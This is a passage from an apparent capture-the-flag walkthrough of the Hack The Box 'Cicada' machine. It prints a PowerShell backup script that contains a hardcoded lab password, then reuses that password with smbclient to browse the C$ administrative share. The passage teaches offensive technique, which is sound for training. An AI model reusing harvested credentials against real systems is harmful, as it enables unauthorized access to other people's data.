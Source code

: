 Once got the file analyze its content:

```shell
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ cat Backup_script.ps1  

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

```

Found other credentials inside it, use them with smbclient to browse trough C$

```shell
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient  //cicada.htb/C$ -U CICADA\\emily.oscars 
Password for [CICADA\emily.oscars]:
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Thu Mar 14 09:24:03 2024
  $WinREAgent                        DH        0  Mon Sep 23 12:16:49 2024
  Documents and Settings          DHSrn        0  Thu Mar 14 15:40:47 2024
  DumpStack.log.tmp                 AHS    12288  Sun Nov  3 12:18:49 2024
  pagefile.sys                      AHS 2097360896  Sun Nov  3 20:34:40 2024
  PerfLogs                            D        0  Thu Aug 22 14:45:54 2024
  Program Files                      DR        0  Thu Aug 29 15:32:50 2024
  Program Files (x86)                 D        0  Sat May  8 05:40:21 2021
  ProgramData                       DHn        0  Sun Nov  3 14:53:45 2024
  Recovery                         DHSn        0  Thu Mar 14 15:41:18 2024
  Shares                              D        0  Thu Mar 14 08:21:29 2024
  System Volume Information         DHS        0  Thu Mar 14 07:18:00 2024
  Temp                                D        0  Sun Nov  3 15:26:00 2024
  temporary                           D        0  Sun Nov  3 19:47:16 2024
  Users                              DR        0  Mon Aug 26 16:11:25 2024
  Windows                             D        0  Sun Nov  3 21:19:09 2024

                4168447 blocks of size 4096. 49574 blocks available
smb: \> 

```

Navigate to emily.oscars' Desktop folder and you'll find the user flag:
